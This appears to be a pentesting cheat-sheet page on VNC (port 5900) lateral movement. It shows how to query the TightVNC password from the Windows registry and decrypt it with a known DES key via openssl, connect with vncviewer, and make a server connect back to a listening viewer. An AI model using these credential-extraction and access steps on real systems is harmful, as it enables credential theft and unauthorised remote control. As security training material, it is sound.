

# 5900 - VNC

Virtual Network Computing (VNC) is a remote desktop technology that allows users to view and control another computer over a network. It uses the Remote Frame Buffer (RFB) protocol to transmit keyboard and mouse input while displaying the remote system’s GUI in real time via the TCP port 5900.

## Lateral Movement

### Windows

[TightVNC](https://www.tightvnc.com/) is a lightweight and commonly used VNC implementation that provides remote access and administration capabilities across Windows and Linux systems.&#x20;

```powershell
# Check if the VNC port is open on the target
Test-NetConnection -ComputerName SRV02 -Port 5900
```

If administrative access is obtained on a host with VNC installed, stored credentials may be retrievable from the Windows registry. [PasswordDecrypts](https://github.com/frizb/PasswordDecrypts) has a registry key list for popular VNC software.


```powershell
# Retrieve the VNC password from the registry
> reg query HKLM\SOFTWARE\TightVNC\Server /s
...
    Password    REG_BINARY    816ECB5CE758EAAA
    
# Decrypt the password
echo -n 816ECB5CE758EAAA | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```


### Linux


Press `F8` during the session to access additional viewer options and interact with the remote system.



```bash
# Install a VNC client
sudo apt-get install xtightvncviewer

# Connect to the target via VNC
echo VNCFake1 | vncviewer 172.20.0.52 -autopass

# For slower or unstable connections
echo VNCFake1 | vncviewer 172.20.0.52 -autopass -quality 0 -nojpeg -compresslevel 1 -encodings "tight hextile" -bgr233
```


## Software

### TightVNC

> [TightVNC Documentation](https://www.tightvnc.com/docs.php)

[TightVNC](https://www.tightvnc.com/) is a free and open-source remote desktop software server and client application for Linux and Windows.

1. Start the TightVNC Viewer on Listening mode:

<div align="left"><figure><figcaption></figcaption></figure></div>

2. Use the server binary to connect to the client's listening mode:

```shellscript
# Connect to the client's listening mode
PS C:\Program Files\TightVNC> .\tvnserver.exe -controlservice -connect <client-IP>
```
